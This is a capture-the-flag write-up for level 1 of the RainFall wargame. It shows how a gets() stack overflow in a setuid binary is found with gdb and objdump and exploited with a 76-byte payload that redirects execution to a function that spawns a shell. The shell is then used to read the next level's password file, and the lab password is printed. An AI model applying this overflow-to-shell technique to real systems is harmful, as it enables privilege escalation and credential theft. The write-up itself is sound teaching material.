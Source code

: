 # Level 1

## Vulnerability

Buffer overflow exploit<br/>
[Owasp example](https://owasp.org/www-community/attacks/Buffer_overflow_attack)

## Context

```
level1@RainFall:~$ ls -l
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```
Note: the owner of this binary is level2. 

## Solution

Let's see what the binary does. 
```
level1@RainFall:~$ ./level1
[...]
```
It looks like it's waiting on input from the stdin. Let's take a look in gdb. 
```
level1@RainFall:~$ gdb ./level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>: 	and    $0xfffffff0,%esp
   0x08048486 <+6>: 	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb)
```
We can see here the binary calls the C function ```gets```, which copies a string from stdin to a buffer. 
Let's see if we can cause a buffer overflow. A buffer overflow allows us to change the flow of execution of the program.
```
level1@RainFall:~$ python -c 'print "a"*76' | ./level1
Illegal instruction (core dumped)
```
So we've effectively triggered a stack overflow here.
The next step is to look for where we can regain control

```objdump``` will give us a deeper look at the assembly instructions in this binary file. 
We use the ```-M intel``` flag for Intel syntax. 
```
level1@RainFall:~$  objdump -d -M intel level1
[...]
08048444 <run>:
[...]
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```
Here we find a run command and ```system()``` call that we can exploit. 
If we run system("/bin/sh"), [it will launch a shell](https://stackoverflow.com/questions/43294227/hijacking-system-bin-sh-to-run-arbitrary-commands) that will run with the same priveleges as the calling program. 


```
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
So the password for level2 is ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```

## Recreate Exploited Binary

As user level2, create level1_source.c, then compile in /tmp/.
```
level2@RainFall:~$ cd /tmp
level2@RainFall:/tmp$ gcc level1_source.c -fno-stack-protector -o level1_source
```
Edit permissions including suid, then move the binary to home directory.
```
level2@RainFall:/tmp$ chmod u+s level1_source
level2@RainFall:/tmp$ chmod +wx ~; mv level1_source ~
```
Exit back to user level1, then run the binary.
```
level2@RainFall:~$ exit
exit
level1@RainFall:~$ (python -c 'print "a"*76 + "\x44\x84\x04\x08"'; cat) | /home/user/level2/level1_source
```
